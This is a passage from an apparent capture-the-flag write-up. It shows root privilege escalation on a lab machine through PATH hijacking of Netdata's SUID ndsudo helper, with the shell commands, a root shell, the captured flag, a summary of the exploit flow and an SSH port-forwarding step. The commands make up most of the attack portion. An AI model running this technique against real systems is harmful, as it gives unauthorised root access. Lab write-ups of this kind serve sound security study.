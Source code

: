 Then we gonna modify `PATH` to prioritize our fake binary.

```bash
oliver@editor:~$ export PATH=~/fakebin:$PATH
```

Double check to make sure that the `PATH` is modified.

```bash
oliver@editor:~$ echo $PATH
/home/oliver/fakebin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Now we gonna execute `ndsudo` with `megacli-disk-info` command.

```bash
oliver@editor:~$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo megacli-disk-info
root@editor:/home/oliver# id
uid=0(root) gid=0(root) groups=0(root),999(netdata),1000(oliver)
```

Got the root shell.

```bash
root@editor:/root# ls -la
total 44
drwx------  8 root root 4096 Aug  3 09:30 .
drwxr-xr-x 18 root root 4096 Jul 29 11:55 ..
lrwxrwxrwx  1 root root    9 Jul  1 19:19 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Apr 27  2023 .cache
drwxr-xr-x  2 root root 4096 Jun 19 08:14 .config
drwxr-xr-x  3 root root 4096 Apr 27  2023 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwx------  2 root root 4096 Jun 19 11:30 .ssh
-rw-r-----  1 root root   33 Aug  3 09:30 root.txt
drwxr-xr-x  2 root root 4096 Jun 19 08:14 scripts
drwx------  3 root root 4096 Apr 27  2023 snap
root@editor:/root# cat root.txt
8aa9be1eb649248376cd54fc5c98c43d
```

Ta-da! Got the `root.txt` flag.

The flows of the exploitation: <br>
- `ndsudo` searches `PATH` for `megacli` or `MegaCli`
- Our directory comes first in modified `PATH`
- Our malicious binary executes instead of real `megacli`
- SUID bit ensures execution as root
- `setuid(0)` + `execl()` gives us root shell

*Some bonus discovery of some ports:* <br>
Start with port `19999`. Use ssh port forwarding and access to `127.0.0.1:19999`.

```bash
└─$ ssh -L 19999:127.0.0.1:19999 oliver@editor.htb
```
